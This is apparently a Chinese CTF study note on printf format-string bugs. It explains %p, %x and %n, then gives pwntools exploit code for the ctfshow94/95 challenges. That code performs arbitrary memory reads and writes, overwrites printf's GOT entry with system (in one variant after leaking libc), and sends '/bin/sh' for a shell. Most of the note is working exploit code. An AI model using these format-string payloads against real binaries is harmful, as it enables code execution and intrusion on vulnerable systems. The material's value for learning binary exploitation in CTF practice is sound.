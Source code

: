 ##### printf漏洞：

- %p： `%p` 用于打印内存地址-- 指针的内存地址 
- %x： `%x` 会输出栈上的内容 -- 无符号整数的十六进制表示 
- %n： `%n` 将已经打印的字符数写入一个指针指向的内存位置 例子：printf("%x %x %x %x %n", &count); 会输出四个栈上的值，并且在输出完这些值后，`%n` 会将输出的字符总数写入 `count` 变量中 。

实现任意地址读：

buf在 payload=flat(b'aaaa'+b'-%x'*20 )这样的攻击下，一般在161616161这样的地方的位置

选一下自己要读取的位置离buf的距离（不是地址距离，是变量个数距离）

```python
#8就是偏移地址，是flag地址，buf的偏移在10（是1616161）
payload=flat(b'%8$s')
p.send(payload)
```

实现任意地址写：

```python
daniu = 0x804B038#目标地址
payload = fmtstr_payload(7,{daniu:6})#7是偏移量，6是写入的值
io.sendline(payload)
```

实现改变got值：

```python
#ctfshow94
offset = 6 
printf_got = elf.got['printf']#改变的
system_plt = elf.plt['system']#想要的
payload = fmtstr_payload(offset,{printf_got:system_plt})
io.sendline(payload)
io.recv()
io.sendline('/bin/sh\x00')


#ctfshow95 升级版，没有system
elf = ELF('./pwn')
printf_got = elf.got['printf']
payload = p32(printf_got) + '%6$s'
io.send(payload)
printf = u32(io.recvuntil('\xf7')[-4:])
libc = LibcSearcher('printf',printf)
libc_base = printf - libc.dump('printf')
system = libc_base + libc.dump('system')
log.info("system ===> %s" % hex(system))
payload = fmtstr_payload(6,{printf_got:system})
io.send(payload)
io.send('/bin/sh')

```
